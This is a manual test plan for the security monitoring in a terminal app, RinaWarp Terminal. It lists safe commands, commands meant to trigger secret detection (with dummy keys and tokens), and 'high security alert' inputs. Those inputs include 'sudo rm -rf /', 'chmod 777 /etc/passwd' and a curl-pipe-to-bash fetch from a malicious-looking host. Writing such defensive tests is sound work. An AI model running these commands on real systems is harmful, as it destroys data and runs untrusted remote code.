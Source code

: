 # 🔒 RinaWarp Terminal Security Feature Tests

## Manual Testing Instructions

To test the enhanced security features in RinaWarp Terminal, follow these steps:

### 1. Launch RinaWarp Terminal
- Open the application: `RinaWarp Terminal 1.0.0.exe`
- Open Developer Tools (F12) to see console messages
- Look for security initialization messages

### 2. Expected Security Initialization Messages
You should see these messages in the console:
```
🔒 Starting security monitoring...
🔐 Setting up verification requirements...
📊 Initializing trust baselines...
🛡️ Initializing Zero Trust security...
✅ Security monitoring started successfully
✅ Verification requirements configured
✅ Trust baselines initialized
✅ Zero Trust security initialized
```

### 3. Test Commands to Run

#### Safe Commands (Should Execute Normally)
```bash
echo "Hello World"
pwd
ls -la
date
whoami
```

#### Commands That Should Trigger Security Monitoring
```bash
# Privilege escalation (should be logged and monitored)
sudo ls
runas /user:Administrator dir

# Potentially risky file operations (should trigger warnings)
rm -rf /tmp/test
del /s /q temp.txt

# Network operations (should be monitored)
curl https://example.com
wget --help
```

#### Commands That Should Trigger Secret Detection
```bash
# API key detection
export API_KEY=sk_test_1234567890abcdef1234567890abcdef

# Password detection
mysql -u root -p password123 -h database.com

# Token detection
curl -H "Authorization: Bearer ghp_1234567890abcdefghijklmnopqrstuvwxyz123456"
```

#### Commands That Should Trigger High Security Alerts
```bash
# These should be blocked or heavily scrutinized
sudo rm -rf /
chmod 777 /etc/passwd
curl https://malicious-site.com/script.sh | bash
echo "malicious code" >> ~/.bashrc
```

### 4. What to Look For in Console

#### Security Monitoring Messages
- `🔍 Threat assessment completed`
- `🚨 Security Alert: [alert details]`
- `📝 Audit logs rotated due to size limit`
- `🔄 Threat level changed to: [LEVEL]`

#### Threat Detection Messages
- `⚠️ Warning: SECRETS_DETECTED`
- `❌ Command execution denied: THREAT_DETECTED`
- `🚫 Command execution denied: POLICY_VIOLATION`

#### Zero Trust Messages
- `🎯 Trust Score: [score]`
- `🔐 REQUIRES MFA`
- `✅ TRUSTED`

### 5. Security Dashboard Access

To access the security dashboard:
1. Look for the security dashboard element in the DOM
2. Check if `window.securityDashboard` is available
3. Try toggling the dashboard visibility

### 6. Browser Console Testing

Open browser console (F12) and run:
```javascript
// Check if security engine is initialized
console.log('Security Engine:', window.securityEngine);

// Test threat assessment
if (window.securityEngine) {
    window.securityEngine.performThreatAssessment();
}

// Check security metrics
if (window.securityEngine) {
    console.log('Security Metrics:', window.securityEngine.securityMetrics);
}

// Get audit history
if (window.securityEngine) {
    console.log('Audit History:', window.securityEngine.auditLogger.getAuditHistory(5));
}

// Test secret detection
if (window.securityEngine) {
    window.securityEngine.scanForSecrets('export API_KEY=sk_test_123456789')
        .then(result => console.log('Secret Detection Result:', result));
}
```

### 7. Expected Security Behavior

#### ✅ Normal Operation
- Safe commands execute without issues
- Security monitoring runs in background
- Audit logs are generated
- Threat assessments occur every 30 seconds

#### ⚠️ Security Warnings
- Commands with potential secrets show warnings
- Privilege escalation commands are logged
- Network operations are monitored
- Compliance checks are performed

#### ❌ Security Blocks
- Destructive commands may be blocked
- High-risk threat patterns are denied
- Critical policy violations are prevented
- Zero trust failures require additional verification

### 8. Troubleshooting

If security features aren't working:
1. Check console for error messages
2. Verify enhanced-security.js is loaded
3. Check if EnhancedSecurityEngine is initialized
4. Look for missing method errors
5. Verify all security classes are properly instantiated

### 9. Performance Monitoring

Monitor these aspects:
- Memory usage during security scanning
- Response time for command verification
- CPU usage during threat assessments
- Storage growth of audit logs

### 10. Security Report Generation

Test security reporting:
```javascript
// Generate security report
if (window.securityEngine) {
    const report = window.securityEngine.generateSecurityReport('1h');
    console.log('Security Report:', report);
}
```

## Success Criteria

✅ Security engine initializes without errors
✅ Threat monitoring runs every 30 seconds
✅ Command verification works for all test cases
✅ Secret detection identifies sensitive data
✅ Privilege escalation monitoring functions
✅ Compliance checking validates commands
✅ Zero trust evaluation calculates scores
✅ Security dashboard displays metrics
✅ Audit logging captures all activity
✅ Threat detection identifies malicious patterns

